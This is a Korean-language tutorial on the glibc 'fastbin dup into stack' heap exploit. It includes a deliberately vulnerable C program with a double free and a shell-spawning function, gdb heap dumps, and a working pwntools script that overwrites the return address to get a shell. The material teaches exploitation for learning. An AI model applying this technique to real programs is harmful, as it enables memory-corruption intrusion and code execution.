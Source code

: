 # **Fastbin-dup into stack**

## **Conditions**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)
* 공격자에 의해 할당된 Fast Chunk 영역에 값을 저장할 수 있어야 한다.
* 할당 받고자 하는 Stack 영역에 해제된 Fast Chunk의 크기 값이 저장되어 있어야 한다.

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk(A, B, C) 3개 생성한다.
1. 첫 번째 Fast Chunk(A) 해제한다.
1. 두 번째 Fast Chunk(B) 해제한다.
1. 첫 번째 Fast Chunk(A) 해제한다
1. 이전과 동일한 크기로 힙을 할당하고 해당 Chunk 영역에 "Stack 영역 주소 값 - prev_size 공간(0x8)" 쓴다.
1. 동일한 크기로 Fast Chunk 2개 생성한다.
1. 다음에 할당하는 영역에 원하는 값 쓴다.
    * 할당된 영역은 "Stack 영역의 주소 값 + 0x8" 영역

A -> B -> A 로 해제하는 이유는 동일한 공간을 연속으로 해제하는 경우 double free or corruption이 발생하기 때문이다.

5번째에 동일한 크기로 힙을 할당하는 경우 첫 번째 A가 할당되는데 여기에 값을 쓸 수 있다면 Fake Chunk로 조작이 가능하다.

![fastbin_dup_malloc](/Resources/img/fastbin_dup_malloc.png)

원래 세 번째 A의 FD 값에는 아무 값도 없기 때문에 다음 청크가 없었지만, 첫 번째 A가 할당되면서 FD, BK 부분이 데이터 영역으로 변했고, Fake Chunk 값을 쓰면 세 번째 A의 FD가 변조된다.  

### **Fake Chunk의 조건**

* 이전 Chunk의 Size와 Fake Chunk의 Size가 동일해야 함
* 우리가 변조하고자 하는 주소보다 작은 주소에 위치해야 함

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void call_me(){
       system("/bin/sh");
}

int main()
{
        long stack_var = 0x0;
        scanf("%ld",&stack_var);
        printf("Stack_var : %p\n",&stack_var);

        char *buf1 = malloc(112);
        char *buf2 = malloc(112);
        char *buf3 = malloc(112);

        free(buf1);
        free(buf2);
        free(buf1);

        char *buf4 = malloc(112); 
        char *buf5 = malloc(112);

        scanf("%8s",buf4);

        char *buf6 = malloc(112); 
        char *buf7 = malloc(112);
        read(0,buf7,112);  
}
```

* buf1을 2번 Free 후 buf4에 scanf로 입력받는다.  
* Tail buf1의 fd는 Null이지만 현재 buf4로 malloc을 해준 상태로 Tail의 fd를 조작할 수 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602820 --> 0x4141414141414141 (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x6029a0 (size : 0x20660) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* Fast Chunk의 크기가 동일해야 하므로 Stack 내 128(0x80)이 존재하는 부분을 확인한 후 해당 위치의 - 0x8 한 위치(0x7ffe2d26fa38)를 입력해야한다. (Chunk의 시작)  
* 0x7ffe2d26fa48부터 User Data이며 read로 입력받도록 만들었다.

```
gdb-peda$ x/4x 0x7ffe2d26fa38
0x7ffe2d26fa38:	0x0000000000400783	0x0000000000000080
0x7ffe2d26fa48:	0x000000000040080d	0x00007ffe2d26fa7e

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x112a420 --> 0x7ffe2d26fa38 --> 0x40080d (size error (0x415d5b08c48348e8)) --> 0xc35f415e415d415c (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x112a5a0 (size : 0x20a60) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

* read를 통해 main의 return 값을 변조하여 call_me로 분기가 가능하다. 

```
gdb-peda$ x/24gx $rbp-0x48
0x7ffc9c05d7d8:	0x00000000004007b5  0x0000000000000080 <- Chunk Header
0x7ffc9c05d7e8:	0x4141414141414141  0x4141414141414141 <- User Data
0x7ffc9c05d7f8:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d808:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d818:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d828:	0x00000000004006b6  0x000000000000000a

gdb-peda$ x/2x $rbp
0x7ffc9c05d820:	0x4141414141414141	0x00000000004006b6 <- ret
```

## **Exploit Code**

```python
from pwn import *

call_me = 0x4006b6
p = process('./fastbin_dup')
#gdb.attach(p)
p.sendline("128")  # Set Chunk Size in Stack
stack_addr = int(p.recvline().split(' ')[2],16)
log.info('Stack Addr : ' + hex(stack_addr)) 
p.sendline(p64(stack_addr - 0x8)) # size - 0x8(Chunk)
#raw_input('1')
p.sendline("A"*0x40 + p64(call_me)) # Modulate Stack

p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fastbin# python exploit.py 
[+] Starting local process './fastbin_dup': pid 4442
[*] Stack Addr : 0x7ffc3ed4ffc0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup_into_stack>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>
